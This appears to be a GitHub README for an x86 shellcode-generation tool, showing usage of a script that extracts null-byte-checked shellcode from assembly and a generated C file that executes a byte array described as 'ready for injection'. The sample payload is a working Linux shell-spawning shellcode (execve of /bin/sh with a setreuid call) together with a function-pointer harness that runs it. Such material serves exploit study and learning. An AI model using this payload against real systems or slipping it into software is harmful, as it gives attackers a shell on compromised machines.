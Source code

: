 # 0x86-assembely-shellcodeing

exploitation with assembly shellcodeing and i write a tool to out shellcodeing and checking for null bytes


#Usage

```shellcode.sh ./file.asm ```
it will generate like that :
``` 
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42
```
you can write it to file.c with

```shellcode.sh ./file.asm c ```
it will generate like that :
```
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42

 [+] Writing shellCode as shell.c ready for injection
 
```
and this is content of ```generatedfile.c```
```
int main(){

char shellcode[]="\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int (*execshell)();
execshell=(int(*)()) shellcode;
int execrightnow=execshell();
}
```
#Writen And Devleoped By 0xCrypt00o under the Mit license 

